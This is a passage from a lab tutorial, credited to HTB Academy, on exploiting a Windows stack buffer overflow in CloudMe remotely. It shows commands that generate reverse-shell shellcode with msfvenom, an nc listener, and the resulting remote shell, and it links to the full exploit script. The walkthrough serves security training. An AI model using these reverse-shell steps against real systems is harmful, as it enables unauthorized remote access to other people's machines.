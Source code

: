 As we have built and tested our exploit, we can now try running it on a real remote server. We can use the same exploit on the real target, and we only need to change the `IP` and `port` in our script to aim it at the new target and change the shellcode we use within the script to something that will send us a reverse shell.

---

## Reverse Shell Shellcode

First, we need to find our machine's IP, which should be reachable by the remote server (in the same network subnet):

  Remote Exploitation

```shell-session
frodonomojo@htb[/htb]$ ip -4 a

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    ...SNIP...
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    ...SNIP...
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    ...SNIP...
5: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    inet 10.10.15.10/23 brd 10.10.15.255 scope global tun0
```

The IP we will use is `tun0`'s IP, as our VM is on the same `10.10.` subnet.

Note: You need to be connected to the VPN to be able to interact with the remote server, so download the VPN key in case you want to run the exploit from your own machine. The PwnBox instance is already connected to the VPN, so you should be able to connect to the remote server.

Next, we will generate the shellcode that will send us a reverse shell, which we can get with the `windows/shell_reverse_tcp` payload in `msfvenom`, as follows:

  Remote Exploitation

```shell-session
frodonomojo@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python'

...SNIP...
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
...SNIP...
```

We can modify our exploit by copying the output and using it in the `exploit()` function for the `buf` variable.

---

## Remote Exploitation

After that, we can start a `netcat` listener to receive the reverse shell, as follows:

  Remote Exploitation

```shell-session
frodonomojo@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
```

Once we are listening, we can run our payload with `python win32bof_exploit_remote.py` and wait for the remote server to send us a reverse shell if our exploitation was successful.

  Remote Exploitation

```shell-session
frodonomojo@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.15.10] from (UNKNOWN) [10.10.10.10] 64539
Microsoft Windows [Version 10.0.19042.928]
(c) Microsoft Corporation. All rights reserved.

C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe>whoami
whoami
htb-student
```

As we can see, without having local access to the remote server, we successfully exploited the remote service and received a reverse shell. This shows us that if we properly debug the program, we can build and test our exploit locally, then run it on any remote server with the vulnerable program listening for remote connections.

You can download the final exploit code from the following link. Don't forget to rename it from `.txt` to `.py`.

[Download win32bof_exploit_remote_py.txt here](https://academy.hackthebox.com/storage/modules/89/scripts/win32bof_exploit_remote_py.txt)

**Credit:** This information was adapted from an excellent guide on [HTB Academy](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-windows-x86). Be sure to check out the original post for more details.

